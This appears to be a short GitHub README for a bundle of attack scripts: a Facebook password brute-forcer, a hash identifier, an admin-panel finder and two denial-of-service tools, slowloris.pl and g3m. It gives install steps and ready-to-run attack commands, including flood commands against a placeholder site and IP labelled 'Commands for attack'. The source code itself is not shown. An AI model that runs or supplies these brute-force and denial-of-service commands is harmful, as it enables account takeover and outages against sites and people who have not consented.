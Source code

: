 ########################
# Scripts for testing. #
########################

fb-brute.pl = Bruteforce for Facebook.
hash_id_v1.1.py = Hash Identifier
painel.pl = Admin Control Panel Finder
slowloris.pl = Denial of Service
g3m = Denial of Service

###########################
# How to Install and use. #
###########################

fb-brute.pl:
Intall = sudo chmod +x fb-brute.pl
Use = perl fb-brute.pl id-user-facebook wordlist.txt

hash_id_v1.1.py:
Install = sudo chmod +x hash_id_v1.1.py
Use = python2 hash_id_v1.1.py

painel.pl:
Install = sudo chmod +x painel.pl
Use = perl painel.pl

slowloris.pl:
Install = sudo chmod +x slowloris.pl
Use = Commands for attack:
$ perl slowloris.pl -dns www.target.com -port 80 -timeout 1 -num 1000 -tcpto 5
$ perl slowloris.pl -dns IP

g3m:
Install = sudo chmod +x g3m
Use = Commands for Attack:
$ ./g3m -h ip -T 3              #Attack private internet
$ ./g3m -h ip -T 3 -p 80,80     #Attack websites


